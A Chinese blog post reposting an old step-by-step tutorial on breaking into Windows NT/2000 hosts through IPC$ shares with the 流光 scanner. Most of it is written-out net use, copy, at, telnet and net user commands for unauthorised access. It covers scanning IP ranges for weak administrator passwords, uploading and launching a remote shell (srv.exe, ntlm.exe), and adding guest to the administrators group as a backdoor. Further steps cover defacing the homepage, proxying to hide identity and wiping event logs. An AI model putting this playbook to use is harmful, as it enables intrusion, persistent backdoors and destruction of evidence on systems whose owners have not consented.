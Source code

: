 ```yaml
---
layout: post
title: IPC$ 探测
tags: IPC$ 探测
categories: 🌐NET
---
```

## IPC$ 探测 — 流光基础教程

IPC : interprocess communications
准确说 是 IPC$  是默认的在系统启动时候的 admin 共享.

是 windowsNT / 2k 特有的 远程网络管理登录功能

特点是: 同一时间内 两个 IP 之间 只允许建立一个连接.

试图通过 ipc$ 连接 会在 ecentlog 中留下记录. 不管你是否登录成功.



启动流光:
获得一台主机的管理权限  并将这个主机做成跳板,那么就可以用命中率高的办法来探测了.
即测试一批 IP 来获得弱口令.


在主界面选择“探测—探测 POP3/FTP/NT/SQL 主机”选项。或者直接按 CTRL+R，然后弹出 
“主机扫描设置”对话框。 

3：输入我们要破解的IP 段，在选项中我们把“frontpage”主机自动加入HTTP 主机列表取 
消。因为我们只想获得IPC 弱口令，这样可以加快扫描的速度，加入IP，选择扫描NT/98 主 
机，需要说明的是这里我们可以选择的还有很多，包括SQL/FTP/POP3 等等，灵活运用可以给 
我今后的探测工作带来很大的方便 

4：探测中„„ 
警告：如果你要探测的是流光保留的国内IP 段会被禁止的，也就是探测的时候信息栏会出 
现“IP 保留”的字样，免得初学HACKER 的你误伤国内的站点的同时给自己带来麻烦！ 

5：扫描到的NT/98 主机列表（我就不贴了） 

6：没有扫描到密码的，就不用看报告了 

7：有了 NT/98 的机器了，就可以正式开始 IPC$，右键点击谈探测的“IPC$主机—探测—探 
测所有IPC$用户列表”。或者按键盘的CTRL+F9 

8：注意下面两个复选框的设置，把两个都选上，因为我们只要 ipc$管理员的弱口令，而且 
只要有一个就可以了，然后点“选项”。 

9：点“选项”后，弹出“用户列表选项”对话框，为了加快弱口令扫描速度，我们把它全部 
取消，比如第二个选项，既然对方景致列出用户了，我想对于一个网管来说，弱口令可能性 
也是微乎其微的 


10：探测中„„很快就出现破解成功的提示，上面的FTP 主机（IP192.168.0.1）也有了相应 
的变化。 

11：又出现查看报告的窗口，这次有结果，当然要仔细看看 

12：有远程主机的管理密码了，我们剩下的就是想办法控制他了，有什么好办法呢？当然有 
很多了，比如在“工具——NT/IIS 工具”菜单下，这些我们以后在说，今天还是先练习NET 
命令吧，这样有利于我们了解这些命令究竟是在完成些什么样的功能 

13：目标是如何被黑的 
开个DOS 命令提示符窗口执行命令如下命令 “||”后面是说明 
1）net use \对方IPipc$“密码” /user：“用户名”||与对方建立ipc$ 远程连接 
2）copy icmd.exe \对方ipadmin$ ||admin$是对方的winnt 目录，这里存放文件多 
3）net time \对方ip ||查看对方的系统时间 
4）at \对方ip 程序启动的时间 启动程序名 启动程序的参数 ||用at 命令来定时启动程 
序，在这里我们用soon 这个程序来做也可以，它可以取代3/4 两步。 
5）tenlent 对方ip 端口 ||通过远程服务端口远程登陆目标主机 
6）输入pass（口令） ||如果不是就用icmd.exe，或者没有设置口令就不用了 
7）在开个窗口，继续copy我们要用的东西，copy sock.exe、copy ntlm.exe、copy vclear.exe。 
如果我们真的想黑了它，只需要把我们的首页文件覆盖目标的首页就OK 了。我们可以通过在 
跟目录执行dir /s default.htm 或者dir /s index.htm 来确定对方的首页的位置，一般是 
在X：interpubwwwroot 就可以用修改好的首页覆盖对方的首页 
8）其实黑人家是很不道德的而且违法的，我们最还是物有所值，做成跳板吧，今后干活方便 
点。执行我们copy 过去的ntlm.exe 取消登陆验证。再给自己留个后门，比如提升guest 的 
权限，或者其他的后门工具，这类东西有很多，自己选吧 
9）做个sock5 代理玩玩，用在QQ 上面不错哦 
执行我们copy 过去的sock -install,net start skserver ,看看用在QQ 上的效果，这样 
就可以隐藏自己的真实身份了，而且在局域网也可以通过服务器上QQ 了 
10）问题思考：还能够做成其它的吗？ 
当然了，只要你有时间，而且愿意做，一个个人专用的服务器在你面前，你想做什么都可 
以 


14：日志清除，断开连接： 
支持我们copy 过去的cl.exe clear.exe 都可以清除日志，比如clear all ：清除所有日 
志。然后断开连接：net use \对方 IPIPC$ /delete 这一步是必须的，尤其是在一些有争 
议的站点上，或者是国内的站点，除非你想让电视报导XXX 地区又捕获黑客一名XXX 







IPC$的定义：IPC$是共享“命名管道”的资源，它是为了让进程间通信而开放的命名管道，在远程管理计算机和查看计算机的共享资源时使用。
IPC$的作用：利用IPC$可以与目标主机建立一个空的连接(无需用户名与密码)，而利用这个空的连接，我们就可以得到目标主机上的用户列表。用“流光”的IPC$探测功能，可以得到用户列表，并配合字典，进行密码尝试。
IPC$空连接主机步骤：
1、首先要扫到能建立IPC$空连接的主机，有了目标才能进攻，推荐使用安全焦点的xscan_gui v1.3，该软件使用方法很简单，而且速度快，也许还能扫出其他漏洞。
2、详细了解NET命令，做IPC$空连接主机是不可不知NET命令使用的。
3、如果知道对方的用户名和密码，就用下面这个命令：
net use \\127.0.0.1\ipc$ ”密码” /user:”用户名”
退出的命令是：
net use \\127.0.0.1\ipc$ /delte
4、大部分情况下我们都不知道对方机器的用户名和密码。这就需要知道他的IP，我们使用用ping命令，格式为：ping www.xxx.com(如果用QQ聊天更简单，现在好多QQ都显IP的)， 用追捕查他的操作系统，用户名等。现在信息都有了，然后大家试试弱智点的密码，如:123，12345，123456，用户名就是Administrator。运气好的话就可以进入了。
5、实在猜不出密码的话就只有用榕哥的大作――流光，运行探测――扫描POP3/FTP/NT/SQL主机，会出现“主机扫描设置”，在“扫描范围”中分别填写“开始地址”与“结束地址”，这步你可以选择要扫描的IP段，也可以只填某一IP，扫描主机类型”选择“NT/98”，然后开始扫描，如果单扫某一IP，我建议扫描主机类型选ALL，选项选中的内容不要取消，这样可以看看他的机器是什么颜色的，具体表示看下表：
红色：该主机安装了FrontPage扩展，并没有权限设置。如果扫到红色的，你可以打开FrontPage，在打开那里填上他的IP地址，接着你就知道怎么做了。
蓝色：表示该主机上安装了FrontPage扩展。
黑色：远程执行命令。你可以单击该主机――连接，就可以用DOS命令操作远程计算机，如:dir c:\\
黄色：直接下载对方SAM文件(SAM文件是NT下储存用户和密码的文件，下载后用LC3可以解开)。
绿色：将对方SAM文件上传到指定的FTP服务器。
6、现在知道了他主机的情况，就可以开始探测他的用户列表了！右键点IPC$主机－探测－探测所有IPC$用户列表，下面两个对话框的设置都选上，我们只要IPC$管理员的弱口令。在结果点击右键，探测用户列表，Administrstor(超级用户)直接探测到ADMIN的密码，如果实在不行，我们还可以拿其他用户“开刀”，然后在想办法让他变成超级用户。
7、得到用户名和密码我们就可以连接了。打开win2000下的cmd.exe(也就是命令提示符)。然后重复第二步教过的连接连接命令:
net use \\127.0.0.1\ipc$ ”密码” /user:”用户名”
成功连接后显示命令成功完成。
8、现在你可以用copy命令把你想要上传的东西放到他的机器里。
9、如果你想黑他页面的话就找到网页所在的目录，如:c:\inetpub\wwwroot，用命令：
copy c:\index.htm \\IP地址\c$\inetpub\wwwroot
这里的c:\index.htm指的是你作好的网页，上传替换掉原先的文件就可以改他的主页。
其他的操作方式就自己开发吧！以下提供几条有用的命令：
建立空连接
net use \\IP\ipc$ ”" /user:”"
建立非空连接
net use \\IP\ipc$ ”用户名” /user:”密码”
映射默认共享
net use z: \\IP\c$ ”密码” /user:”用户名” （即可将对方的c盘映射为自己的z盘，其他盘类推）
如果已经和目标建立了ipc$，则可以直接用IP+盘符+$访问,具体命令：
net use z: \\IP\c$
删除一个ipc$连接
net use \\IP\ipc$ /del
删除共享映射
net use c: /del 删除映射的c盘，其他盘类推
net use * /del 删除全部,会有提示要求按y确认
经典入侵示例
1.C:\>net use \\127.0.0.1\IPC$ ”" /user:”admintitrators”
这是用《流光》扫到的用户名为administrators，密码为”空”的IP地址，如果是打算攻击的话，就可以用这样的命令来与127.0.0.1建立一个连接，因为密码为”空”，所以第一个引号处就不用输入，后面一个双引号里的是用户名，输入administrators，命令即可成功完成。
2. C:\>copy srv.exe \\127.0.0.1\admin$
先复制srv.exe上去，在流光的Tools目录下就有（这里的$是指admin用户的c:\winnt\system32\，大家还可以使用c$、d$，意思是C盘与D盘，这看你要复制到什么地方去了）。
3.C:\>net time \\127.0.0.1
查查时间，发现127.0.0.1 的当前时间是2005/5/1上午11:00，命令成功完成。
4.C:\>at \\127.0.0.1 11:05 srv.exe
用at命令启动srv.exe吧（这里设置的时间要比主机时间快，不然无法启动）。
5.C:\>net time \\127.0.0.1
再查查到时间没有，如果127.0.0.1 的当前时间是 2002/3/19 上午 11:05，那就准备开始下面的命令。
6.C:\>telnet 127.0.0.1 99
这里会用到Telnet命令吧，注意端口是99。Telnet默认的是23端口，但是我们使用的是SRV在对方计算机中为我们建立一个99端口的Shell。
虽然我们可以Telnet上去了，但是SRV是一次性的，下次登录还要再激活！所以我们打算建立一个Telnet服务！这就要用到ntlm了。
7.C:\>copy ntlm.exe \\127.0.0.1\admin$
用Copy命令把ntlm.exe上传到主机上（ntlm.exe也是在《流光》的Tools目录中）。
8.C:\WINNT\system32\>ntlm
输入ntlm启动（这里的C:\WINNT\system32\>指的是对方计算机，运行ntlm其实是让这个程序在对方计算机上运行）。当出现”DONE”的时候，就说明已经启动正常。然后使用”net start telnet”来开启Telnet服务！
9.Telnet 127.0.0.1，接着输入用户名与密码就进入对方了，操作就像在DOS上操作一样简单！然后你想做什么就做什么吧。
为了以防万一,我们再把guest激活加到管理组。
10.C:\>net user guest /active:yes
将对方的Guest用户激活。
11.C:\>net user guest 1234
将Guest的密码改为1234,或者你要设定的密码。
12.C:\>net localgroup administrators guest /add
将Guest变为Administrator (如果管理员密码更改，guest帐号没改变的话，下次我们可以用guest再次访问这台计算机) 。
其他操作就看您的能力和水平了，自己揣摩吧！
注：此为本人几年前收藏的经典网文，虽然好多命令和工具均已无法正常运行，但其思路和方法仍然值得网络安全爱好者学习，在此向原作者表示致敬！




流光5 
